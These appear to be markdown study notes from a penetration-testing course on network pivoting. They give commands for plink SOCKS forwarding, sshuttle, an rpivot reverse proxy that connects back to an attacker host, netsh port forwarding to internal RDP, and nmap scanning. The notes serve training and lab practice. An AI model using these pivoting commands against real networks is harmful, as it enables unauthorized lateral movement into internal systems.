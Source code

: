 ## SSH for Windows - plink.exe

```bash
# in Windows Plink used to create dynamic port forwards and SOCKS proxies if SSH not available.
# HACKER : 10.10.x.x, M1:10.10.x.x/172.16.x.x, M2:172.16.x.x
# HACKER(windows):9050==>M1(ubuntu):SOCKS==>M2(windows)

cmd > plink -ssh -D 9050 M1-USER@<M1-ip> # dynamic port frw

# then use Proxifier.exe (https://www.proxifier.com) to confige SOCKS server for 127.0.0.1 and port 9050, video https://www.youtube.com/watch?v=ujsb2pLZUiw
mstsc.exe # RDP access to M2 
```
![](https://academy.hackthebox.com/storage/modules/158/66-1.png)
![](https://academy.hackthebox.com/storage/modules/158/reverse_shell_9.png)

## SSH Pivoting with Sshuttle

```bash
# Sshuttle (https://github.com/sshuttle/sshuttle) it  pivoting python tool 
# dynamic port forwarding
ATTACKER ==> M1(pivot host)==> internal network(172.16.5.0/23) 

sudo sshuttle -r <M1-USER>@<M1-IP> 172.16.5.0/23 -v

# test access to privet network
nmap -v -sV -p3389 172.16.5.19 -A -Pn 
```

## Web Server Pivoting with Rpivot
![](https://academy.hackthebox.com/storage/modules/158/77.png)
```bash
# Rpivot python2 reveerse socks proxy tool, can expose the local port on the external natwork (https://github.com/klsecservices/rpivot.git)
# ATTACKER ==> M1(pivot host)==> Privet_web-server(172.16.5.135) 

# dynamic port frw
  # on the attack host:
  python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
  # on the pivot host (M1)
  python2.7 client.py --server-ip <ATTACKER-IP> --server-port 9999

  proxychains firefox-esr 172.16.5.135:80 # access to the privet web server
  
# Some organizations use HTTP proxies with NTLM auth linked to the Domain Controller; in such cases, rpivot supports NTLM credentials to authenticate through the proxy.
  python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
## Port Forwarding with Windows Netsh
![[Pasted image 20250619144847.png]]
```bash
Netsh is a Windows command-line tool that can help with the network configuration
# ATTACKER-->M1:8080-->M2(RDP 172.16.5.25:3389)

#  Using Netsh.exe to local Port Forward (ON M1)
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.27.226 connectport=3389 connectaddress=172.16.5.19

netsh.exe interface portproxy show v4tov4  #=>10.129.15.150 8080 172.16.5.25 3389


# on attcker host we connect to priver rdp service
xfreerdp /v:<M1-IP>:8080 /u:<USER> /p:<PASS>
```